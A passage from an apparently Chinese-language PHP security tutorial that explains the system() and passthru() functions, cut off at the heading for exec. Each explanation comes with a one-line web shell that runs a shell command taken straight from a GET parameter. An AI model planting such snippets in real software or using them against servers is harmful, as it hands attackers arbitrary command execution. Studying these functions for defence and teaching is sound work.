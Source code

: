 `system(string $command)`

执行 command 参数所指定的系统命令，并且输出执行结果

```php
<?php 
system($_GET[1]);
?>
```

## passthru

官方定义 

执行外部程序并且显示原始输出（执行系统命令并回显）

![5](/medias/phpfunc/5.png)

`passthru(string $command)`

执行系统命令，可以替代 system() 或 exec() 函数

```php
<?php
passthru($_GET[1]);
?>
```

## exec

